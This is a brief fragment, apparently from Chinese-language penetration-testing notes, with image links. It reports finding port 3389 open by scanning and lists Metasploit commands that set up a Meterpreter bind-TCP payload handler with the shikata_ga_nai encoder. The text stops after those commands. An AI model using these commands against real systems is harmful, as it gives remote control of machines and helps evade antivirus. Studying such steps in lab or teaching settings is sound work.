 ![img](assets/1660663659497-053d0c7d-9036-4a7a-9d13-a0d3f1bb00ae.png)

通过端口扫描发现PC开启3389端口![img](assets/1660661621967-c132905c-b87b-4de3-bbdf-a6661a448524.png)

msf开启监听

use exploit/multi/handler 

set payload windows/meterpreter/bind_tcp 

set stageencoder x86/shikata_ga_nai 
